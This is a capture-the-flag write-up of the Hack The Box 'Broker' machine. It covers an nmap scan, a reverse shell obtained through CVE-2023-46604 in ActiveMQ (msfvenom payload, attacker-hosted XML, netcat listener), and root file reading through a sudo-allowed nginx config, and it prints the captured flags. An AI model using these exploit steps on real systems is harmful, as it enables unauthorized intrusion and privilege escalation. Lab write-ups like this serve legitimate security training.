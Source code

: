 ```yaml
---
title: "Broker from HTB"
categories: [Hack The Box]
tags: [Hack The Box]
---
```

# Broker from HTB
[page](https://app.hackthebox.com/machines/Broker)
`Nmap `gave this:
```bash
nmap -sCV --min-rate 4000 10.10.11.243 -p-
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-07 20:38 +04
Stats: 0:00:41 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 88.89% done; ETC: 20:39 (0:00:02 remaining)
Nmap scan report for 10.10.11.243
Host is up (0.087s latency).
Not shown: 65520 closed tcp ports (conn-refused)
PORT      STATE    SERVICE    VERSION
22/tcp    open     ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp    open     http       nginx 1.18.0 (Ubuntu)
|_http-title: Error 401 Unauthorized
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
1883/tcp  open     mqtt
| mqtt-subscribe:
|   Topics and their most recent payloads:
|     ActiveMQ/Advisory/Consumer/Topic/#:
|_    ActiveMQ/Advisory/MasterBroker:
5672/tcp  open     amqp?
| fingerprint-strings:
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie:
|     AMQP
|     AMQP
|     amqp:decode-error
|_    7Connection from client using unsupported AMQP attempted
|_amqp-info: ERROR: AQMP:handshake expected header (1) frame, but was 65
7328/tcp  filtered swx
8161/tcp  open     http       Jetty 9.4.39.v20210325
|_http-title: Error 401 Unauthorized
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-server-header: Jetty(9.4.39.v20210325)
17431/tcp filtered unknown
35037/tcp open     tcpwrapped
47098/tcp filtered unknown
53708/tcp filtered unknown
54578/tcp filtered unknown
57832/tcp filtered unknown
61613/tcp open     stomp      Apache ActiveMQ
| fingerprint-strings:
|   HELP4STOMP:
|     ERROR
|     content-type:text/plain
|     message:Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolException: Unknown STOMP action: HELP
|     org.apache.activemq.transport.stomp.ProtocolConverter.onStompCommand(ProtocolConverter.java:258)
|     org.apache.activemq.transport.stomp.StompTransportFilter.onCommand(StompTransportFilter.java:85)
|     org.apache.activemq.transport.TransportSupport.doConsume(TransportSupport.java:83)
|     org.apache.activemq.transport.tcp.TcpTransport.doRun(TcpTransport.java:233)
|     org.apache.activemq.transport.tcp.TcpTransport.run(TcpTransport.java:215)
|_    java.lang.Thread.run(Thread.java:750)
61614/tcp open     http       Jetty 9.4.39.v20210325
|_http-server-header: Jetty(9.4.39.v20210325)
|_http-title: Site doesn't have a title.
| http-methods:
|_  Potentially risky methods: TRACE
61616/tcp open     apachemq   ActiveMQ OpenWire transport
| fingerprint-strings:
|   NULL:
|     ActiveMQ
|     TcpNoDelayEnabled
|     SizePrefixDisabled
|     CacheSize
|     ProviderName
|     ActiveMQ
|     StackTraceEnabled
|     PlatformDetails
|     Java
|     CacheEnabled
|     TightEncodingEnabled
|     MaxFrameSize
|     MaxInactivityDuration
|     MaxInactivityDurationInitalDelay
|     ProviderVersion
|_    5.15.15
```
If you try to access the site with `IP`you can't because it needs password and username. If you try all the ports you will get nothing. There is one interesting port `61616`where `ApacheMQ 5.15.15`is running on. I went and searched for exploit and found this `Github`Repository: https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ, which can help me access the server with `NetCat`:
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST={Your_Listener_IP/Host} LPORT={Your_Listener_Port} -f elf -o test.elf
python3 -m http.server 8001 & # to run in background
nvim poc-linux.xml # Add your IP and PORT
nc -nlvp <port>
```
Get the connection by :
```go
go run main.go -i 10.10.11.243 -p 61616 -u http://<your_IP>:<PORT>/poc-linux.xml
```
use `script /dev/null -c bash`to activate the shell after connecting:
```bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
activemq@broker:/opt/apache-activemq-5.15.15/bin$ cat /home/activemq/user.txt
8bda8fe33a8e63e0d6607091cd018d1b
```
***
User Flag: 8bda8fe33a8e63e0d6607091cd018d1b
***
Then learn what you can run with `root` permission:
```bash
sudo -l
sudo -l
Matching Defaults entries for activemq on broker:
   env_reset, mail_badpass,
  secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
  use_pty

User activemq may run the following commands on broker:
   (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```
We'll use this script for `nginx`privilege escalation:
```bash
cat nginx.conf
user root;
worker_processes auto;
pid /tmp/nginx.pid;
include /etc/nginx/modules-enabled/*.conf;
events {
        worker_connections 768;
}
http{

  server {
     listen 1337;
     location / {
         root /;
       }
 }
}
```
`Im too lazy to write more and i also don't have knowledge`
Then run this command with `nginx`. `Note that nginx will need absolute directory`
```bash
sudo nginx -c /dev/shm/nginx.conf
ss -tlpm
State  Recv-Q Send-Q Local Address:Port   Peer Address:PortProcess
LISTEN 0      511          0.0.0.0:http        0.0.0.0:*
	 skmem:(r0,rb131072,t0,tb16384,f0,w0,o0,bl0,d10)
LISTEN 0      4096   127.0.0.53%lo:domain      0.0.0.0:*
	 skmem:(r0,rb131072,t0,tb16384,f0,w0,o0,bl0,d0)
LISTEN 0      128          0.0.0.0:ssh         0.0.0.0:*
	 skmem:(r0,rb131072,t0,tb16384,f0,w0,o0,bl0,d3)
LISTEN 0      511          0.0.0.0:1337        0.0.0.0:*
```
open `1337`port means that our script is working.
***
Then get the root flag with curl:
```bash
curl localhost:1337/root/root.txt
0e840a3e3a0cffc313db9d602283627c
```
***
![](/assets/images/Screenshot from 2024-08-07 22-10-05.png)
